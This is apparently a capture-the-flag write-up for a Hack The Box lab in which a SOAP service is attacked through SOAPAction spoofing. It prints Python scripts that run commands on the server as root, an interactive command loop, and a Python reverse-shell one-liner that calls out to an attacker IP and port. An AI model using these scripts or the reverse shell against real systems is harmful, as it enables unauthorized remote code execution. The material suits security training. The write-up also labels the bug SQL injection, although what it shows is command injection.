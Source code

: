 ```yaml
---
sticker: emoji//1f480
---
```

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

![[Pasted image 20250219173246.png]]

Let's check it out:

![[Pasted image 20250219173341.png]]

We get this code:

```xml
<wsdl:definitions targetNamespace="http://tempuri.org/">
<wsdl:types>
<s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
<s:element name="LoginRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
<s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="LoginResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
</s:schema>
</wsdl:types>
<!-- Login Messages -->
<wsdl:message name="LoginSoapIn">
<wsdl:part name="parameters" element="tns:LoginRequest"/>
</wsdl:message>
<wsdl:message name="LoginSoapOut">
<wsdl:part name="parameters" element="tns:LoginResponse"/>
</wsdl:message>
<!-- ExecuteCommand Messages -->
<wsdl:message name="ExecuteCommandSoapIn">
<wsdl:part name="parameters" element="tns:ExecuteCommandRequest"/>
</wsdl:message>
<wsdl:message name="ExecuteCommandSoapOut">
<wsdl:part name="parameters" element="tns:ExecuteCommandResponse"/>
</wsdl:message>
<wsdl:portType name="HacktheBoxSoapPort">
<!-- Login Operaion | PORT -->
<wsdl:operation name="Login">
<wsdl:input message="tns:LoginSoapIn"/>
<wsdl:output message="tns:LoginSoapOut"/>
</wsdl:operation>
<!-- ExecuteCommand Operation | PORT -->
<wsdl:operation name="ExecuteCommand">
<wsdl:input message="tns:ExecuteCommandSoapIn"/>
<wsdl:output message="tns:ExecuteCommandSoapOut"/>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="HacktheboxServiceSoapBinding" type="tns:HacktheBoxSoapPort">
<soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
<!-- SOAP Login Action -->
<wsdl:operation name="Login">
<soap:operation soapAction="Login" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
<!-- SOAP ExecuteCommand Action -->
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="HacktheboxService">
<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
<soap:address location="http://localhost:80/wsdl"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```

If we check the code, we can find the following:

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We got an `executeCommand` element which uses a `cmd`, let's try using this `client.py` script to issue the requests:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

If we execute it:

```
python3 client.py                               
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning `This function is only allowed in internal networks`. We have no access to the internal networks. We need to spoof, let's do it using this python script, let's name if `SOAPSpoof.py`:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

We get the following output:

```
ython3 SOAPSpoof.py 
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>
```

Now, the `whoami` command we specified in the script worked, as seen, the server responds with `root`, we can automate the process with this script:

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.27.149:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```


We can stabilize and use netcat once we get the shell using:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![[Pasted image 20250219174430.png]]

And we get a better shell, let's look around for the flag:

![[Pasted image 20250219175030.png]]

We can see an `app.js` file, if we grep it for the flag, this happens:

```
root@nix01-websvc:/app/soap-wsdl# cat app.js | grep FLAG
  'FLAG{1337_SQL_INJECTION_IS_FUN_:)}'
```

We got our flag:

```
FLAG{1337_SQL_INJECTION_IS_FUN_:)}
```

![[Pasted image 20250219175123.png]]

